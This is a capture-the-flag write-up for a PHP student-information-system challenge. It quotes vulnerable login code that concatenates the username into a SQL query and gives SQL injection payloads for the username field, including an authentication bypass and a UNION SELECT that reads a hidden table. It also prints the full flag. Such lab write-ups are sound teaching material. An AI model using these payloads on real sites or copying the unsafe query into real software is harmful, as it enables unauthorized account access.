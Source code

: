 # VinUni's Student Information System

VinUni SIS's source code has been recently disclosed in public. It has become a target of a notorious hacker crew, VinUni Hacking Club. You are an intern of this crew, try to exploit the website to become the official member!

Note: The flag is divided into two parts.

Challenge URL: http://ctflag.vhc.asia:12215/

## Techniques

PHP + SQL Injection

## Solution

### Finding the first part

As we refer to the [PHP source code](http://ctflag.vhc.asia:12215/thesis.php?source), we find the following snippet.

```php
<?php if ($_SESSION["username"]=="administrator"){ ?>
    <h1 class="corb-flag"><?php echo $flag; ?></h1>'
<?php } ?> 
```

And how can we obtain the value for `$_SESSION["username"]`?

```php
$query = "SELECT username FROM users WHERE username = '" . $_POST['username'] . "' and password = ?";

// ...

// Bind password param
$query->bind_param("s", $_POST['password']);
$query->execute();
$query->bind_result($user);
$query->fetch();

// Check if a user does exist
if ($user != NULL) {
    session_start();
    $_SESSION['is_logged_in'] = true;
    $_SESSION['username'] = $user;
} else {
    $error = true;
    $error_msg = "<strong>Wrong!</strong> Username/Password is invalid.";
}
```

We can apply a SQL Injection attack to the login query, by setting `username=administrator` and omit the rest by commenting out.

We can supply the below values to the login form (leave the `password` field blank)

![login form 1](login-1.png)

But initially, I use `administrator' or '=` instead, but it yields the same behavior anyway.

The first part of the flag is `VHC2022{m3_c4N_SqLi_`.

![flag 1](flag-1.png)

### Finding the second part

A hint is given in the previous part that we need to find a way to login 'secretly'.

When we apply the same previous technique for the username `secretly, secret, the_secret_user`, etc., it doesn't work. It implies that such usernames do not exist in the `users` table.

Again, look at the PHP source code but the SQL query test comments.

```php
// Test:
// $query = "SELECT _faculty1 FROM the_faculty_table"
// $query = "SELECT _faculty2 FROM the_faculty_table"
// $query = "SELECT the FROM the_faculty_table"
// $query = "SELECT the_menu_user FROM the_canteen_table";
// $query = "SELECT the_ceo_user FROM the_vingroup_table";
//
// $query = "SELECT the_secret_user FROM the_secret_table";
// $query = "SELECT the_guest_user_1 FROM the_guest_table";
// $query = "SELECT the_CFO_user FROM the_cbm_table";
// $query = "SELECT V202145001 FROM the_students_table"
// $query = "SELECT V202000001 FROM the_students_table"
// $query = "SELECT V202000002 FROM the_students_table"
// $query = "SELECT V202000003 FROM the_students_table"
// $query = "SELECT V202000004 FROM the_students_table"
// $query = "SELECT V202000005 FROM the_students_table"
// $query = "SELECT V202000006 FROM the_students_table"
```

There is a `the_secret_user` in the `the_secret_table` table. How can we bring it to the SQL query result?

We can use a UNION query!

`' UNION SELECT the_secret_user FROM the_secret_table #`

Type this in the `username` field, and voilà!

![flag 2](flag-2.png)

The second part of the flag is `m3_4_r34L_h4ck3r!}`.

## The Flag

`VHC2022{m3_c4N_SqLi_m3_4_r34L_h4ck3r!}`